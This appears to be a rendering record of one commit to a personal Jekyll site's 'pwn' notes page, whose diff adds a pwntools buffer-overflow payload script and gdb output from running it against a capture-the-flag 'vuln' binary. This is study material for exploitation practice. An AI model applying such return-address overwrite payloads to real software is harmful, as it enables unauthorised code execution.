

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 10602 px. Shown: the top 874 px of the window, without its empty margins (2-1033 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 11088 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -452,3 +452,21 @@ LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 *ESP  0xffffd5f0 ◂— 0xffffff0a
 *EIP  0x43434343 ('CCCC')
 ```
+
+```
+from pwn import p32
+import sys
+payload = b'A'*64 + b'TEST' + b'B'*16 + p32(0x8049336)
+sys.stdout.buffer.write(b"100\n" + payload)
+```
+
+```
+pwndbg> run < payload
+Starting program: /home/connor/Desktop/vuln < payload
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/usr/lib/libthread_db.so.1".
+How Many Bytes will You Write Into the Buffer?
+> Input> Ok... Now Where's the Flag?
+Please create 'flag.txt' in this directory with your own debugging flag.
+[Inferior 1 (process 107530) exited normally]
+```
````
